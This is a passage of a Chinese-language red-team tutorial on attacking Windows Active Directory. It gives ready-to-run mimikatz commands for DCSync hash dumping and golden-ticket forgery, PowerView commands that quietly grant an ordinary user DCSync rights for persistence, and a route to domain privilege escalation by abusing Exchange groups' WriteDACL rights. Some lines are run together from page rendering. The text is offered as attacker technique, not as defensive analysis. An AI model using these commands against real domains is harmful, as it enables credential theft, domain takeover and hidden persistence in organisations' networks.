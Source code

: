 这个东西 可以实现不登录到域控而获取域控上的数据  
获得以下权限就可以使用了

*   Administrators 组内的用户
    
*   Domain Admins 组内的用户
    
*   Enterprise Admins 组内的用户
    
*   域控制器的计算机帐户
    

然后在 mimikatz 里  
privilege::debug  
lsadump::dcsync /user:xxxx /domain:xxxxx /csv 即可

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMxlINakJibCgjWib2z5Xhw09lFO8Uy9g05zdb7VpnjoIJ9vW92ocpvzFQ/640?wx_fmt=png)

然后我们就可以通过 krbtgt hash 制作黄金票据登录 administrator。  
如果还想隐蔽一点，可以给普通用户添加如下 ACE, 使其获得 dcsync 权限

*   DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
    
*   DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
    
*   DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)
    

可以以管理员权限运行 powerview.ps1 完成以上操作

```
#给域用户hack添加以上三条ACEAdd-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose#给域用户hack删除以上三条ACERemove-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose
```

然后普通用户也可以用 mimikatz 调用 dcsync 导出 hash 了

### **配合 EXCHANGE 用户达到域提权目的**

前提: 一个 exchange 高权限组的用户控制权，一个机器账户

exchange 安装后会在 AD 上生成两个容器

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMUUnJV34jauvE0rGZmd4kzX1r5FQLt6DMI3INVibUicVpZAheuLCgYdyw/640?wx_fmt=png)

其中 exchange windows permissions 组的用户拥有 writeDACL 权限， Exchange Trusted Subsystem 是 Exchange Windows Permission 的成员，能继承 writedacl 权限，有这个权限后就能使用 dcsync 导出所有用户 hash。  
其中 exchange trusted subsystem 组甚至可能有继承自 administrators 组的权限。

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWM1L2icc8pU6SVS4sFyI3ic16ic66tfwUKBORJBLLtTOW1DrGYOhRxPgWDA/640?wx_fmt=png)

假设我们已经拿到了 exchange trusted subsystem 中一个用户的控制权。  
那么就可用 dysync 进行权限维持了

**十九、黄金票据生成**
-------------

```
#提权privilege::debug#生成黄金票据并导入kerberos::golden /user:administrator /domain:const.com /sid:当前用户sid去掉最后一个数据 /krbtgt:krbtgt的hash /ptt
```
